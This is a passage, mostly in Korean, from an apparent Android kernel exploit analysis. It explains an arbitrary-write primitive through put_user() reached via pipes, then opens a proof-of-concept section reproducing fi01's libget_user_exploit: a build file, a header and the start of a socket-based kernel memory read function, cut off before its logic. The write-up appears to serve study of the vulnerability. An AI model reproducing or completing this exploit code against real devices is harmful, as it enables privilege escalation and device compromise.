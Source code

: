  파이프를 사용시 `put_user()` 호출이 가능하다. 따라서 `pipe_ioctl()`등을 이용하여 파이프 생성 및 연결 이후 특정 주소에 쓰기가 가능하다.

# 3. Proof of concept

## 3-1. Exploit code audit

### i. Use `get_user()`

> Based on [fl01's libget_user_exploit](https://github.com/fi01/libget_user_exploit)

```makefile
# File: Android.mk

LOCAL_PATH := $(call my-dir)

include $(CLEAR_VARS)

LOCAL_SRC_FILES := \
  get_user.c \

LOCAL_MODULE := libget_user_exploit
LOCAL_MODULE_TAGS := optional

include $(BUILD_STATIC_LIBRARY)
```

 `make` 시 `get_user.c`를 포함하여 `libget_user_exploit` 이름의 모듈로 사전 설정을 한다.

```c
/* File: get_user.h */
#ifndef GET_USER_H
#define GET_USER_H

#include <stdbool.h>

extern bool get_user_read_value_at_address(unsigned long address, int *value);

#endif /* GET_USER_H */
```

```c
/* File: get_user.c */

/*
 *  Copyright (c) 2013 by fi01
 */

#include <stdio.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <netinet/in.h>
#include <errno.h>
#include "get_user.h"

static bool
ipsock_read_value_at_address(unsigned long address, int *value)
{
  unsigned int addr;
  unsigned char *data = (void *)value;
  int sock;
  int i;

```
